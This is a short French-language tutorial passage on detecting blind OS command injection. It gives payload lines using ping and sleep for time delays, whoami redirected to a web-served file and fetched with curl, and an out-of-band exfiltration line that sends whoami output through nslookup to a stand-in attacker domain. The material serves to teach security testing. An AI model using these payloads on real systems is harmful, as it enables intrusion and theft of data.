 - L'injection de commande aveugle se produit lorsque il n'y a pas de sortie visible, donc elle n'est pas immédiatement perceptible.

- Pour ce type d'injection de commande, nous devrons utiliser des charges utiles qui entraîneront un certain délai. comme `ping` et `sleep`.

```sh
& ping -c 10 127.0.0.1 &
; sleep 10 ;
```

- Une autre méthode de détection de l'injection de commande aveugle consiste à forcer une sortie en utilisant des opérateurs de redirection tels que `>`.

```sh
& whoami > /var/www/static/whoami.txt &

curl -s https://vulnerable-website.com/whoami.txt
```

- Au cas ou Il n'est pas possible de rediriger la sortie vers un emplacement auquel vous pouvez accéder. On peut utiliser une commande injectée qui déclenchera une interaction réseau hors bande avec un système que nous contrôlons, en utilisant les techniques `OAST` et le canal hors bande fournit également un moyen simple d'exfiltrer la sortie des commandes injectées :

```sh
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```


